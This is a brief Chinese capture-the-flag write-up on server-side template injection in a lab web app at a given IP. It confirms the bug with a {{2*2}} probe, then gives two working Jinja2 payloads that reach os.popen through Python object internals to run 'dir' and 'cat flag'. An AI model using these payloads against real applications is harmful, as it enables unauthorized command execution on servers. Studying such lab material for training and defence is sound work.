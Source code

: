 验证是否存在ssti

http://114.67.175.224:10168/?flag={{2*2}}
回显为4，存在漏洞

测试
```
{%for i in ''.__class__.__base__.__subclasses__()%}{%if i.__name__ =='_wrap_close'%}{%print i.__init__.__globals__['popen']('dir').read()%}{%endif%}{%endfor%}
```


测试payload
```
{{config.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
```
后得到flag